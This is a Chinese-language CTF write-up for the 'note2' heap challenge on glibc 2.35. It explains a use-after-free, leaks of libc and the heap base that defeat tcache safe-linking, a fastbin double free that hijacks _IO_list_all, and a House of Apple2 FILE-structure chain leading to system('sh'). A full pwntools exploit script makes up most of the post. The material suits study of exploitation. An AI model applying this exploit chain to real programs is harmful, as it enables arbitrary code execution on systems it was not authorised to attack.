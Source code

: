 ```yaml
---

title: BaiLu_note2
date: 2023-03-08 19:28:27
tags:
- pwn
- heap
- 高版本glibc
- House of xxx
categories:
- pwn_wp
---
```


柏鹭杯的note2，用的glibc2.35。

高版本的 glibc 封锁掉了很多的后门，特别是几个重要的 hook 不再是我们可以利用的了。这些高版本的glibc利用往往涉及到io(House of ...)，而且不少都与large bin有关系，但这里走的是fast bin和tcache。

<!--more-->

堆题经典保护全开。glibc2.35的ld文件用的是ld-linux-x86-64.so.2而不是ld-2.35.so

```sh
patchelf --set-interpreter /home/a1ph0nse/tools/glibc-all-in-one/libs/2.31-0ubuntu9.7_amd64/ld-2.31.so --set-rpath /home/a1ph0nse/tools/glibc-all-in-one/libs/2.31-0ubuntu9.7_amd64/ filename

# 高版本libc用ld-linux-x86-64.so.2，除此之外还要
sudo cp -r /home/a1ph0nse/tools/glibc-all-in-one/libs/2.35-0ubuntu3.1_amd64/.debug/.build-id/* /usr/lib/debug/.build-id/
```

这也是一个菜单，有增删查的功能；最多同时申请10个chunk，chunk的size<=0x200（small bin）；在删除的时候没有清空指针，存在UAF；查是简单的puts()；程序退出的时候走的是exit(0)。

可以通过UAF+查leak libc，通过fast bin double free劫持_IO_list_all，之后走House of Apple2的利用链。

### leak libc and heap base

利用unsorted bin和UAF来leak libc

heap base可以通过让两个chunk在unsorted bin中利用UAF来leak

heap base也可以利用**glibc2.32引入tcache的safe-linking（异或加密）机制**来leak，该操作在chunk被放入tcache bin和从tcache bin中取出时进行，会对**存放在`fd`处的指针**进行处理。

```c
#define PROTECT_PTR(pos, ptr, type)  \
        ((type)((((size_t)pos) >> PAGE_SHIFT) ^ ((size_t)ptr)))
#define REVEAL_PTR(pos, ptr, type)   \
        PROTECT_PTR(pos, ptr, type)
```

实际上就是执行`ptr^(heap_base>>12)`。因此第一个放入tcache的chunk中的fd=(0^(heap_base>>12))==(heap_base>>12)，因此只要读出其中的值，并左移12位即可得到heap_base。

```py
key=uu64(r(5)) # heap_base长6字节,最后12位为0,右移12位后,接受5字节即可获得高36bit和额外的4bit
heap_base=key<<12 # 此时左移12bit即可得到heap_base
```

### djack _IO_list_all

这里要利用UAF控制unsorted bin或small bin并不容易，最方便的还是利用fast bin double free实现overlap，修改fd指向`_IO_list_all`，并且由于使用tcache，在tcache为空的情况下会先从fast bin放入tcache，再从tcache中取出，不会对`size`字段进行检查，因此不用调整偏移满足`size`字段。

### House of Apple2

伪造`IO_FILE`，利用House of Apple2，走`exit->fcloseall->_IO_cleanup->_IO_flush_all_lockp->_IO_wfile_overflow(_IO_wfile_jumps中的_IO_overflow)->_IO_wdoallocbuf->_IO_WDOALLOCATE->*(fp->_wide_data->_wide_vtable + 0x68)(fp)`

```py
# construct fake io
target_addr=heapbase+0xfc0

fake_fp=b'  sh' # flag <-target 
fake_fp=fake_fp.ljust(0x28,b'\x00')+p64(1) # write_ptr > write_base
fake_fp=fake_fp.ljust(0xa0,b'\x00')+p64(target_addr+0xe0) # ->wide_data
fake_fp=fake_fp.ljust(0xd8,b'\x00')+p64(_IO_wfile_jumps) # mode<=0 ->vtable
fake_fp=fake_fp.ljust(0xe0+0xe0,b'\x00')+p64(target_addr+0x210) # ->wide_data->vtable

fake_wide=b'\x00'
fake_wide=fake_wide.ljust(0x68,b'\x00')+p64(sys_addr) # fp->_wide_data->_wide_vtable + 0x68=RIP


add(1,0x200,fake_fp) # +0xfc0
add(2,0x200,fake_wide) # +0x11c0
```

### exp

exp:

```py
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
filename='pwn'
elf=ELF('./'+filename)
libc=ELF('libc.so.6')
# p=process('./'+filename)
p=process('./pwn')
#p=remote('',)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug(cmd='\n'):
  gdb.attach(p,cmd)
  pause()
    
def add(idx,size,content):
  ru('> ')
  sl('1')
  ru('Index?\n')
  sl(str(idx))
  ru('Size?\n')
  sl(str(size))
  ru('Enter content: ')
  sl(content)

def free(idx):
  ru('> ')
  sl('2')
  ru('Index?\n')
  sl(str(idx))

def view(idx):
  ru('> ')
  sl('3')
  ru('Index?\n')
  sl(str(idx))

def exit_pwn():
  ru('> ')
  sl('4')

# leak libc and heap base
for i in range(7):
  add(str(i),0x110,b'\x00'*0x8)
add(7,0x110,b'\x00'*0x8)
add(8,0x110,'aaaaaaaa'*0x6)
add(9,0x70,'bbbbbbbb')

for i in range(1,7):
  free(str(i))
free(8)
free(7)
# 1-6 and 8 in tcache
# 0 and 7 leak
# unsorted head -> 0 -> 7
view(7)
libcbase=uu64(ru('\n')[2:-1])-0x219ce0
free(0)

view(0)
heapbase=uu64(ru('\n')[2:-1])-0xa70

# debug()

# fast bin double free
free(9)

for i in range(10):
  add(str(i),0x70,'f'*0x40)
for i in range(7):
  free(str(i))
# double free
free(7)
free(8)
free(7)

for i in range(7):
  add(str(i),0x70,'g'*0x30)

IO_list_addr=libcbase+libc.sym['_IO_list_all']
# 7==9, write 9 by 7
payload=p64(IO_list_addr^(heapbase>>12)) # bypass safe-linking (after glibc2.32)
add(7,0x70,payload)
add(8,0x70,'b'*0x40)
add(9,0x70,'c'*0x40)

_IO_wfile_jumps=libcbase+libc.sym['_IO_wfile_jumps']
sys_addr=libcbase+libc.sym['system']
one_gadget=libcbase+0xebcf8

# construct fake io
target_addr=heapbase+0xfc0

fake_fp=b'  sh'
fake_fp=fake_fp.ljust(0x28,b'\x00')+p64(1)
fake_fp=fake_fp.ljust(0xa0,b'\x00')+p64(target_addr+0xe0) # ->wide_data
fake_fp=fake_fp.ljust(0xd8,b'\x00')+p64(_IO_wfile_jumps)
fake_fp=fake_fp.ljust(0xe0+0xe0,b'\x00')+p64(target_addr+0x210)

fake_wide=b'\x00'
fake_wide=fake_wide.ljust(0x68,b'\x00')+p64(sys_addr)


add(1,0x200,fake_fp) # +0xfc0
add(2,0x200,fake_wide) # +0x11c0

# overwrite _IO_list_all
payload=''
add(0,0x70,p64(heapbase+0xfc0))  

leak('libcbase',hex(libcbase))
leak('heapbase',hex(heapbase))
leak('IO_list_addr',hex(IO_list_addr))
leak('_IO_wfile_jumps',hex(_IO_wfile_jumps))
leak('system',hex(sys_addr))
debug()

exit_pwn()

itr()

```

